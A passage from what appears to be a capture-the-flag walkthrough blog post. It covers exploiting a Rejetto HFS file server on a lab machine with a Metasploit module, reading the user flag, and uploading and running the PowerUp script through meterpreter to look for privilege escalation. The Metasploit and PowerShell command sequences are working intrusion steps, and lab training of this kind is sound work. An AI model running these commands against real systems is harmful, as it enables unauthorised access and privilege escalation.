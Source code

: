 We can then use [Exploit-DB](https://www.exploit-db.com/) to search for a CVE that can be used to exploit this file server - the first link in the image below will do the job for us and there is a Metasploit module available for this:

![](https://blog.razrsec.uk/content/images/2020/05/image-54.png)

# Gaining Access

We will use Metasploit to gain an initial shell and obtain the _user.txt_ flag:

```
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.10.127.201
set RPORT 8080
exploit

shell
cd C:\Users\bill\Desktop\
dir
more user.txt
```

![](https://blog.razrsec.uk/content/images/2020/05/image-59.png)

# Privilege Escalation

Now that we have an initial shell on this machine, we can further enumerate and look to escalate our privileges to _root_.

We can use a PowerShell script called 'PowerUp' to evaluate this Windows machine and determine any abnormalities and misconfigurations.

The script can be downloaded to your local terminal from here: [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

Once saved locally, the script can then be uploaded via the meterpreter shell:

```
exit
upload PowerUp.ps1
```

![](https://blog.razrsec.uk/content/images/2020/05/image-60.png)

We can then load PowerShell via meterpreter, drop into a PowerShell shell and execute the script:

```
load powershell
powershell_shell
. .\PowerUp.ps1
Invoke-AllChecks
```
